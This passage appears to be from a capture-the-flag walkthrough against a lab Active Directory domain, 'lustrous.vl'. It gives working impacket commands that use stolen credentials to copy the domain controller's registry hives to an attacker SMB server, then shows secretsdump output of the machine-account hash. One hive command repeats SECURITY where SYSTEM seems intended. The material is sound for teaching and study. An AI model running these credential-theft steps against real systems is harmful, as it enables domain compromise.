 As you can see in the above output, we have successfully gained the credentials to `tony.ward` by abusing Kerberos HTTP authentication! We can now attempt to enumerate the DC as this user.

# Exploiting SeBackupPrivilege Remotely

You'll notice relatively quickly that this user does not have RDP or WinRM access, though that isn't an overly large issue.

We made the assumption that we have `SeBackupPrivilege` enabled as this user due to the name of their `Backup Admins` group. Even though we can't access the machine and get a shell, we can still exploit this privilege remotely.

To do this, we'll use `impacket-reg` to access the registry remotely and pull the SAM, SYSTEM, and SECURITY databases from the DC. I've also stood up a simple SMB server through `impacket-smbserver` so we can download them to our machine.

```
└─$ impacket-smbserver smb share/ -smb2support

└─$ impacket-reg lustrous.vl/'tony.ward':'U_cPVQqEI50i1X'@10.10.169.5 -dc-ip 10.10.169.5 backup -o \\\\(IP)\\smb
```

This may take some time, as the SYSTEM database is a really large file. I've also ran into a few NETBIOS timeouts when running this, feel free to do a bit of trial and error with this tool. There also is an alternative with `BackupOperatorToDA`, which will perform a similar action.

Another note, I've had luck downloading the registry hives individually, you can do so with the below commands. Just make sure to wait a bit in between downloads so you don't receive an invalid handle error.

```
└─$ impacket-reg lustrous.vl/'tony.ward':'U_cPVQqEI50i1X'@10.10.251.85 save -keyName 'HKLM\SAM' -o \\\\10.8.0.173\\smb_share

└─$ impacket-reg lustrous.vl/'tony.ward':'U_cPVQqEI50i1X'@10.10.251.85 save -keyName 'HKLM\SECURITY' -o \\\\10.8.0.173\\smb_share

└─$ impacket-reg lustrous.vl/'tony.ward':'U_cPVQqEI50i1X'@10.10.251.85 save -keyName 'HKLM\SECURITY' -o \\\\10.8.0.173\\smb_share
```

After it's finished, you should have all three files in the respective directory you used for the SMB server. We can now use these three files to dump the machine account NTLM hash for `LUSDC$`. (Make sure to close out of your SMB server so you don't receive a `read-length` error)

```
└─$ impacket-secretsdump -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL

[*] Target system bootKey: 0x9619c4c8e8d0c1e1314ca899f5573926
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
......
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:[...snip...]
```

The NTLM hash for the `LUSDC$` has the username identifier `$MACHINE.ACC`. Although these names are different, this is the same user. Now that we have credentials to the machine account, we can use `impacket-secretsdump` once more to dump the Administrator user's NTLM hash.
